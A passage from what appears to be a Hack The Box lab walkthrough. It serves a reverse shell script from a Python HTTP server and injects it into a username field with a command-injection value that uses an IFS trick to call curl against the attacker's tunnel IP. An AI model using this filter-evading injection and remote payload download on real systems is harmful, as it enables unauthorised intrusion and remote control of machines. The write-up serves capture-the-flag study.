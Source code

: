 Now start a simple HTTP server with python using the command `python3 -m http.server`.

<figure><img src="../.gitbook/assets/Untitled 16 (1).png" alt=""><figcaption></figcaption></figure>

Now its time to download this reverse shell on the target machine. You can use this below command to download the reverse shell on the target machine by supplying this as the value to the username field.

```bash
$(IFS=_;command='curl_http://<Your_HTB_Tunnel_IP>:8000/revshell.sh_--output_/tmp/revshell.sh';$command;)
```

{% hint style="info" %}
I have used a variable IFS in the above command. To know about it, check this out:&#x20;

[https://www.youtube.com/watch?v=so8IRuhWjEM](https://www.youtube.com/watch?v=so8IRuhWjEM)
{% endhint %}

<figure><img src="../.gitbook/assets/Untitled 17 (1).png" alt=""><figcaption></figcaption></figure>

From the response we can see that there is no error thrown. We can verify that the reverse shell is downloaded on the target machine by checking the terminal where we hosted the simple HTTP server using python. You will be able to see a GET request to `/revshell.sh`, which shows that the file is downloaded successfully.
